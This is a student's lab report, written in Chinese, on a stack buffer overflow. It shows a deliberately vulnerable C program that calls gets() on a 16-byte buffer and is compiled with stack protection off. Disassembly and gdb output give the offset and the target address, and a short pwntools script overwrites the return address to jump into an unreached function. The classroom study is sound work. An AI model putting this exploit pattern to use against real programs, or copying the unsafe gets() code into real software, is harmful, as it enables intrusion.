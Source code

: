 # Attack Lab

> 刘铠铭 2020030014 计14

## 实验原理

利用缓冲区溢出对程序进行攻击，实现非法访问等操作。

## 实验步骤

1. 编写受害程序代码

    ``` c
    #include <stdio.h>
    #include <stdlib.h>

    void target() {
        printf("You find a secret room! Success!\n");
        exit(0);
    }

    void getbuf() {
        char buf[16];
        printf("Enter the password to the secret root:\n");
        gets(buf);
        return;
    }

    int main() {
        getbuf();
        printf("Failed to find the secret room!\n");

        return 0;
    }
    ```

    其中 `target()` 为被攻击程序，正常情况下不应被执行。

2. 编译
   
    `gcc -m32 -fno-stack-protector -no-pie source.c -o source`

3. 利用 `objdump -d source |less` 得到反汇编代码，从中可以找到如下信息：
   
    ``` shell
    08049196 <target>:
     8049196:	55                   	push   %ebp
    ```

    ``` shell
    080491c4 <getbuf>:
     80491c4:	55                   	push   %ebp
     80491c5:	89 e5                	mov    %esp,%ebp
     80491c7:	53                   	push   %ebx
     80491c8:	83 ec 14             	sub    $0x14,%esp
     80491cb:	e8 6e 00 00 00       	call   804923e <__x86.get_pc_thunk.ax>
     80491d0:	05 30 2e 00 00       	add    $0x2e30,%eax
     80491d5:	83 ec 0c             	sub    $0xc,%esp
     80491d8:	8d 55 e8             	lea    -0x18(%ebp),%edx
     80491db:	52                   	push   %edx
     80491dc:	89 c3                	mov    %eax,%ebx
     80491de:	e8 6d fe ff ff       	call   8049050 <gets@plt>
    ```

    可以得出缓冲区空间共 28bytes，`target()` 的起始地址为 0x8049196

    其中缓冲区空间也可以通过 gdb 得到：

    ``` shell
    [-------------------------------------code-------------------------------------]
    0x804920f <main+35>: push   eax
    0x8049210 <main+36>: call   0x8049060 <puts@plt>
    0x8049215 <main+41>: add    esp,0x10
    => 0x8049218 <main+44>: call   0x80491c4 <getbuf>
    0x804921d <main+49>: sub    esp,0xc
    0x8049220 <main+52>: lea    eax,[ebx-0x1fb8]
    0x8049226 <main+58>: push   eax
    0x8049227 <main+59>: call   0x8049060 <puts@plt>
    No argument
    [------------------------------------stack-------------------------------------]
    0000| 0xffffca80 --> 0xffffcaa0 --> 0x1 
    0004| 0xffffca84 --> 0xf7f9b000 --> 0x225dac 
    0008| 0xffffca88 --> 0xf7ffd020 --> 0xf7ffda40 --> 0x0 
    0012| 0xffffca8c --> 0xf7d96519 (add    esp,0x10)
    0016| 0xffffca90 --> 0xffffcd1f ("/home/kming/Project/Overflow/source")
    0020| 0xffffca94 --> 0x70 ('p')
    0024| 0xffffca98 --> 0xf7ffd000 --> 0x36f2c 
    0028| 0xffffca9c --> 0xf7d96519 (add    esp,0x10)
    [------------------------------------------------------------------------------]
    ```

4. 设计攻击程序
   
    ``` python
    # tool.py
    from pwn import *

    sh = process("./source")
    sh.recvline()
    sh.sendline(b'0'*28 + p32(0x8049196))
    print(sh.recvline())
    ```


## 实验结果

执行 `python tool.py`：

![](./result.png)